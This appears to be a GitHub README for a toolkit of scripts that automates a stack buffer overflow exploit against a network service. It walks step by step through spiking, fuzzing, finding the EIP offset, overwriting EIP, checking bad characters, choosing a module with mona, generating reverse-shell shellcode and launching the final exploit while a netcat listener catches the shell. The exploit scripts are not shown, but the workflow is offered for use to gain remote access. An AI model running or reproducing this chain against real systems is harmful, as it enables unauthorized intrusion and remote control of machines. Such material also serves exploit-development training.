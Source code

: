 
## Usage Guide:

### Spiking -> 
Edit spiking.spk with the command you want to spike
```
bash spiking.sh <ip> <port>
```

### Fuzzing ->
Inside python fuzzing.py 
Edit:
```
1. ip
2. port
3. command
```
>python fuzzing.py

**Keep the program crash output _byte size_**

### Offset -> 
```
bash pattern.sh <byte size>
```
copy the pattern and paste in **offset.py** and change the **ip** **port** & **command**.
> python offset.py

> bash offset_value.sh <byte size> <pattern form Immunity Debugger>

**Keep the program output _actual size**

### OverWrite EIP ->
Inside overWriteEIP.py
Edit:
```
1. Actual value
2. ip
3. port
4. command
```

> python overWriteEIP.py

### Finding bad char -> 
Inside badchar.py
Edit:
```
1. Actual value
2. ip
3. port
4. command
```
> python badchar.py

**right click on ESP register vlaue and follow in dump and check for bad characters** 

### Finding right module -> 
!mona module "<with dll with all false> "
### Generate shell code ->

> bash rev_shell.sh <your ip> <your port>

**Keep the output _payload_**

### Gain access -> 
Inside final.py
Edit:
```
1. Payload
2. Actual value
3. ip
4. port
5. command
```
Now Start netcat :

>nc -lvnp <your ip> <your port>

And Finally run:

>python final.py
